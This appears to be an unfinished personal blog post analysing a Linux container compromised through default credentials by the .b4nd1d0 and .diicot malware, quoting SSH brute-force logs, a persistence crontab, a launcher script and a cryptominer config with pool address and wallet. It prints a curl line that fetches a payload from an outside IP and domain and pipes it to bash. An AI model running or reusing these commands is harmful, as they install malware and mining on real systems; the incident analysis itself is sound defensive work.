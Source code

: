 ```yaml
---
layout: post
title: a beginer's analysis of .b4nd1d0 and .diicot
date: 2024-09-29 16:10:00
description: How b4nd1d0 and diicot malwares works on a linux container
tags: malware
categories: malware
thumbnail: assets/img/thumbnail/virus.png
---
```


Malwares are one of the more destructive cyber-threats that daily endangers millions of computers and servers. In my case one of the many servers that I use was compromised. The following is my understanding of the attack that will likely change. I'm going to describe our set-up and the hint that I gained from manual log analysis and a bit of google search.

### Setup

- LXC Container
- Public IP address
- Default credentials
  
The perfect recipe for a disaster.

### Detection

The detection of this attack was done by an automatic mail signaling abnormal traffic directed to some Linux machines via SSH, with a lot of errors returned by theese machines.

The logs were like this:
```

2024-09-25T06:11:27.008471+00:00 Linux03 sshd[490844]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=MY_IP  user=root
2024-09-25T06:11:28.679602+00:00 Linux03 sshd[490844]: Failed password for root from MY_IP port 36986 ssh2
2024-09-25T06:11:30.056913+00:00 Linux03 sshd[491084]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=MY_IP  user=root
...
```
There was in action a Login brute-force attack originating from our server trying to gain access to another machine.
Once logged on looking at the logs from one of the unprivileged account, the *admin* one, the ssh service was trying to log in as different user to other IP address.

### Infection and foothold

The malware gained access by exploiting the default credential of the admin's account *admin:admin*. The admin account was not in the sudoers and had just docker installed. A lateral movement is highly improbable because the root account was never utilized by the attacker. 
The attacker was probably another 

### Securing the foothold

The foothold was secured by using a chron script:

```
crontab -l
@daily /var/tmp/Documents/./.b4nd1d0
@reboot /var/tmp/Documents/./.diicot > /dev/null 2>&1 & disown
@reboot /var/tmp/Documents/./.diicot > /dev/null 2>&1 & disown
* * * * * /var/tmp/Documents/./.diicot > /dev/null 2>&1 & disown
* * * * * /var/tmp/Documents/./.diicot > /dev/null 2>&1 & disown
@monthly /var/tmp/Documents/./.diicot > /dev/null 2>&1 & disown
@monthly /var/tmp/Documents/./.diicot > /dev/null 2>&1 & disown
*/30 * * * * /var/tmp/Documents/./.c > /dev/null 2>&1 & disown
*/30 * * * * /var/tmp/Documents/./.c > /dev/null 2>&1 & disown
```

Using disown ... job -l was empty

### Scope of the attack



### b4nd1d0

```
#!/bin/bash
m1lbe1()
{
if ! pgrep -x Opera >/dev/null
then
                cd /var/tmp/Documents
        ./Opera >/dev/null 2>&1
else
                exit 1
fi
}
m1lbe1

```

### diicot

### c

```
curl -s 91.92.250.6/.x/black3 --connect-timeout 15 | bash >/dev/null 2>&1 || curl -s x.diicot.xyz/.x/black3 --connect-timeout 15 | bash >/dev/null 2>&1
```

### config.yaml

```
admin@machine:/# cat /var/tmp/Documents/config.json 

            "tls-fingerprint": null,
            "daemon": false,
            "socks5": null,
            "self-select": null,
            "submit-to-origin": false
        },
        {
            "algo": null,
            "coin": null,
            "url": "139.99.123.196:80",
            "user": "87Fxj6UDiwYchWbn2k1mCZJxRxBC5TkLJQoP9EJ4E9V843Z9ySeKYi165Gfc2KjxZnKdxCkz7GKrvXkHE11bvBhD9dbMgQe",
            "pass": "proxy2",
            "rig-id": "",
            "nicehash": false,
            "keepalive": false,
            "enabled": true,
            "tls": false,
            "tls-fingerprint": null,
            "daemon": false,
            "socks5": null,
            "self-select": null,
            "submit-to-origin": false
        }

```

### Obfuscation
